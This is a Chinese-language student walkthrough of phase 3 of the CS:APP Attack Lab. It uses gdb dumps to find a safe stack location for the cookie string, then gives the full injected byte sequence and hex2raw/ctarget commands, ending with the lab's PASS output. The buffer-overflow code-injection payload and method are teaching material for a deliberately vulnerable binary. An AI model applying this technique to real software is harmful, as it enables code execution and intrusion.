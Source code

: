 ```bash
x/20x 0x55634688
```

得到

```text
(gdb) x/20x 0x55634688
0x55634688:     0x10c7c748      0x6811a676      0x0040207d      0x3f3f3fc3
0x55634698:     0x3f3f3f3f      0x3f3f3f3f      0x00000000      0x00000000
0x556346a8:     0x00000009      0x00000000      0x00402818      0x00000000
0x556346b8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
0x556346c8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
```

可以发现此时我们放在缓冲区的内容还没有被修改，继续 `si`，直到进入 `hexmatch` 函数，继续执行完成 `sub $0x88,%rsp`，再次执行上述查看缓冲区的命令，得到

```text
(gdb) x/20x 0x55634688
0x55634688:     0x00404247      0x00000000      0x00000000      0x00000000
0x55634698:     0x0040209d      0x00000000      0x00000000      0x00000000
0x556346a8:     0x00000009      0x00000000      0x00402818      0x00000000
0x556346b8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
0x556346c8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
```

此时发现我们的放在缓冲区的东西全数被覆写，从而我们得知不能再在缓冲区存放我们的字符数组，于是只能另寻他处。

注意到在 `0x556346b8` 这个地址开始，似乎存在一些多余的 0，于是一个很自然的想法是，我们能否将字符数组覆写到这里。

虽然 phase2 中我们知道不能再在溢出的 4 个字节（即第一次控制的 `ret`）后再写什么，因为会影响原有函数的帧栈的一些东西，但是我们如果保存原本存放的东西不变，只覆写 `0x556346b8` 的这些看上去不太有用的 0，也许就可能有效？

于是我们首先将 cookie 转为 ascii 码 `31 31 61 36 37 36 31 30`，然后控制我们的输入，除了第一次 `ret` 需要更改的四个字节外，保持原有字节不动，直至溢出至 `0x556346b8` ，才再次加入我们需要覆写的字节，并调整存在 %rdi 中的数值为 `0x556346b8` ，于是我们得到我们实际应当输入的字节码：

```asm
48 c7 c7 b8 46 63 55 68
7d 20 40 00 c3 3f 3f 3f
3f 3f 3f 3f 3f 3f 3f 3f
88 46 63 55 00 00 00 00
09 00 00 00 00 00 00 00
18 28 40 00 00 00 00 00
31 31 61 36 37 36 31 30
```

再依次运行：

```bash
./hex2raw < p3.txt > p3a.txt
./ctarget -i p3a.txt
```

于是再次大功告成！

```text
Cookie: 0x11a67610
Touch3!: You called touch3("11a67610")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
